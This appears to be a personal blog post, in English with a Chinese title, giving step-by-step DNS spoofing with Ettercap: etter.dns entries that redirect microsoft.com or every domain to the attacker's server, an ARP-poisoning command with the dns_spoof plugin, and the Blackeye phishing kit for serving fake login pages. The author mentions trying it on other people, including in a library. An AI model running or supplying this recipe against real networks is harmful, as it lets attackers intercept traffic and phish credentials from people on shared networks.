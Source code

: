 ```yaml
---
title: 'Penetration Testing : 流量捕获之DNS缓存攻击'
date: 2019-11-25 22:25:01
tags: [Penetration Testing,Kali Linux,Python]
---
```



### intro
```python
# author: huangyuhui
# date: november 27,2019
# envir: 5.2.0-kali2
# desc: the detailed steps about the dns attack
# repo address: https://github.com/yubuntu0109/penetration-testing-learning
# tested on the mobile browser: [vivo],[xiaomi],[huawei],[quark],[firefox],[qq],[360],[sogou],,
```


### GUI: the detailed steps about the dns attack
```python
'''
[step one]: customize the dns configuration infos of Ettercap
>>> vim ./etc/ettercap/etter.dns
----------------------------------------------------------------------------------------------
eg: modify the dns configuration infos as follow,let it redirect to specified service address
==============================================================================================
microsoft.com			A		xxx.xxx.xxx.xxx (your service ip)
.*microsoft.com			A		xxx.xxx.xxx.xxx
www.microsoft.com		PRT  	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------
ex: add the new configuration infos as follow if you want intercept all of websites
==============================================================================================
*		A		xxx.xxx.xxx.xxx (your service ip)
*		PTR 	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------


[step two]: MitM Attack(arp poisoning) and DNS spoofing by the penetration testing tool of Ettercap
>>> ettercap -G 


[step three]: customize the index page and start the local server of Apache
>>> vim ./var/www/html/index.html
>>> /etc/init.d/apache2 start	# or use this command >>> service apache2 start

(recommend)use the penetration testing tool of Blackeye to replace the service of Apache or others..
>>> https://github.com/YUbuntu0109/blackeye
--------------------------------------------------------------------------------------------------------
becaues you have modified the dns configuraiton infos above,so please test on this option: [16]Microsoft
--------------------------------------------------------------------------------------------------------


[step four]: check the specified service ip with this command
>>> nslookup www.microsoft.com
'''
```


### (RECOMMEND)COMMAND: the detailed steps about the dns attack
```python
'''
[step one]: it's same as the first step above
>>> vim ./etc/ettercap/etter.dns


[step two]: MitM attack(arp poisoning) and dns spoofing by the penetration testing tool of Ettercap
the ip address between the target and the gateway is unordered
>>> ettercap -i <iface> -Tq -M arp:remote -P dns_spoof /[target1]// /[target2]//


[step three]: it's same as the third step above and the penetration tool of Blackeye is recommended
>>> git clone https://github.com/YUbuntu0109/blackeye


[step four]: it's same as the fourth step above
>>> nslookup www.sitename.com
'''
```


### moments
*a simple dns spoofing with phishing~*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-with-phishing.png)

*😅 a simple penetration testing in libaray which is so embarrassing . . .*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-in-library.png)


### recommended tools
* Ettercap: https://github.com/Ettercap/ettercap
* Blackeye: https://github.com/thelinuxchoice/blackeye
* DNS spoofer: https://github.com/DanMcInerney/dnsspoof
* Simple Python DNS Spoofer With Scapy : https://github.com/Sha2ow-M4st3r/DNSpoofer
